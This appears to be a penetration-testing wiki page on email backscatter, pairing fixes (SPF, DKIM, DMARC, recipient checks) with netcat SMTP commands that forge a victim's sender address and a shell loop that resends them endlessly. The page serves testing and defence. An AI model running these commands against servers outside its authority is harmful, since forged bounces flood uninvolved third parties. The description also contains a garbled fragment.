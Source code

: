 ```yaml
---
title : "Backscatter"
# pre : ' '
description : "Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used."
date : 2020-07-03T09:33:43+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Backscatter

Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used.

### Solution

```plain
- Implement anti-forgery checks - SPF, DKIM and DMARC
- Implement recepient checks for acceptance of e-mail
- If above not possible disable NDR reports
```

## Examples

### Single test

```plain
nc 10.10.10.10 25
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

### Automated test

Create a file with this content (backscatter.txt)

```plain
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

```plain
#!/bin/sh
while true;
do
    cat backscatter.txt | while read L; do sleep "1"; echo "$L"; done | "nc" -w 3 -C -v "<target-ip>" "25";
done
```

## URL List

* [Wikipedia.org - Backscatter](https://en.wikipedia.org/wiki/Backscatter_(email))
